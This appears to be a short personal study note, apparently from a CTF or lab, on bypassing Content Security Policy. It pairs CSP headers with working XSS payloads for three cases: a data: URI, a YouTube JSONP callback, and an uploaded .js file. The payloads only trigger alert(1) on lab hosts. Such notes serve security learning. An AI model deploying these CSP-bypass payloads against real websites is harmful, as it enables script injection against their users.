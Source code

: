 ___

Content Security Policy
https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
# Data

```
content-security-policy
	script-src 'self' https://app.hackinghub.io data:
```

```html
<script src=data:text/javascript,alert(1)></script>
```

# 3rd Party Domains JSONP

```
content-security-policy
	script-src 'self' https://app.hackinghub.io https://www.google.com https://www.youtube.com
```


```html
<script/src=https://www.youtube.com/oembed?url=https://www.youtube.com/watch?v=oOfgVmxBk6U&callback=alert(1)></script>
```

# CSP Upload Bypass

```
Content-Security-Policy
	script-src 'self'
```

![[Pasted image 20241122125841.png]]

Change file extension

![[Pasted image 20241122130236.png]]

```
https://1972wbae.eu1.ctfio.com/csp-upload/uploads/602f749c1107ef174ee59af635d096ef.js
```

```html
<script/src=https://1972wbae.eu1.ctfio.com/csp-upload/uploads/602f749c1107ef174ee59af635d096ef.js></script>
```